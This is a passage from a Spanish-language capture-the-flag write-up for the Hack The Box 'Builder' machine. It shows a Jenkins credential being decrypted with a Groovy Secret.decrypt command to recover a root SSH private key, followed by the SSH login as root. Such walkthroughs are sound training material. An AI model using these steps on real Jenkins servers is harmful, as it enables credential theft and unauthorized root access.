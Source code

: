 Si ahora vamos al apartado de credenciales en el código encontramos un value.
![](/assets/images/htb-writeup-builder/11.png)

Si buscamos en internet jenkins decrypt cypher, encontramos una [pagina](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml) que nos da el siguiente comando
```bash
println(hudson.util.Secret.decrypt("{XXX=}"))
```

Vamos a poner dentro de los corchetes el values para ver si nos da la private key
![](/assets/images/htb-writeup-builder/12.png)

Y efectivamente la hemos sacado. Vamos a copiarla en un archivo y a intentar conectarnos por ssh.

```bash
❯ sudo nano id_rsa
❯ chmod 600 id_rsa
chmod: changing permissions of 'id_rsa': Operation not permitted
❯ sudo chmod 600 id_rsa
❯ ssh -i id_rsa root@
❯ ssh -id id_rsa root@-----BEGIN OPENSSH PRIVATE KEY-----
❯ sudo nano id_rsa
❯ sudo chmod 600 id_rsa
❯ sudo ssh -i id_rsa root@10.10.11.10
The authenticity of host '10.10.11.10 (10.10.11.10)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
```